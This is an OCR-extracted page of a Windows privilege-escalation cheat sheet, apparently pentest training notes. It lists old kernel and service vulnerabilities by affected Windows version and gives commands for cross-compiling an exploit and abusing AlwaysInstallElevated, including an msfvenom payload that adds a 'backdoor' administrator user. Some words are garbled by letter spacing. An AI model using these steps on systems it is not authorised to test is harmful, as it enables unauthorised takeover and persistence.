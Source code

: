 **CVE-2017-0213 \[Windows COM Elevation of Privilege Vulnerability] (windows**

**10/8.1/7/2016/2010/2008)**

**CVE-2018-0833 \[SMBv3 Null Pointer Dereference Denial of Service] (Windows 8.1/Server**

**2012 R2)**

**CVE-2018-8120 \[Win32k Elevation of Privilege Vulnerability] (Windows 7 SP1/**

**SP2,2008 R2 SP1)**

**MS17-010 \[KB4013389] \[Windows Kernel Mode Drivers] (windows**

**7/2008/2003/XP)**

**MS16-135 \[KB3199135] \[Windows Kernel Mode Drivers] (2016)**

**MS16-111 \[KB3186973] \[kernel api] (Windows 10 10586 (32/64)/8.1)**

**MS16-098 \[KB3178466] \[Kernel Driver] (Win 8.1)**

**MS16-075 \[KB3164038] \[Hot Potato] (2003/2008/7/8/2012)**

**MS16-034 \[KB3143145] \[Kernel Driver] (2008/7/8/10/2012)**

**MS16-032 \[KB3143141] \[Secondary Logon Handle] (2008/7/8/10/2012)**

**MS16-016 \[KB3136041] \[WebDAV] (2008/Vista/7)**

**MS16-014 \[K3134228] \[remote code execution] (2008/Vista/7)**

**...**

**MS03-026 \[KB823980] \[Buffer Overrun In RPC Interface] (/NT/2000/XP/2003)**

**To c ro s s c o m p i l e a p ro g r a m f ro m K a l i , u s e t h e fo l l ow i n g c o m m a n d.**

```
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

### EoP - AlwaysInstallElevated

**Check if these registry values are set to "1".**

**Then create an MSI package and install it.**

```
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

```
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
```

**Te c h n i q u e a l s o ava i l a b l e i n :**
